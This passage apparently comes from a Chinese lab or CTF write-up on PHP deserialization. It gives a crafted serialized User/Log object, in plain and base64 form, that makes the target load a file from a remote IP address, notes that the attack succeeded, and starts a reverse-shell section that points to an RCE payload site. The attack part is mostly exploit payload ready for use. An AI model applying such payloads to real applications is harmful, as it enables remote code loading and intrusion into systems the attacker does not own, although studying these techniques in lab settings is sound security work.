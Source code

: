 修改反序列化字符串

```
O:4:"User":2:{s:10:"%00User%00name";s:3:"sk4";s:9:"%00User%00wel";O:3:"Log":1:{s:13:"%00Log%00type_log";s:33:"http://192.168.231.128/system.txt";}}
```

编码：

```
Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjM6InNrNCI7czo5OiIAVXNlcgB3ZWwiO086MzoiTG9nIjoxOntzOjEzOiIATG9nAHR5cGVfbG9nIjtzOjMzOiJodHRwOi8vMTkyLjE2OC4yMzEuMTI4L3N5c3RlbS50eHQiO319
```

执行成功：

<img src="%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20230527160243080.png" alt="image-20230527160243080" style="zoom:50%;" />

## shell会弹

推荐网站：

```
https://www.iculture.cc/rce/
```

回弹payload
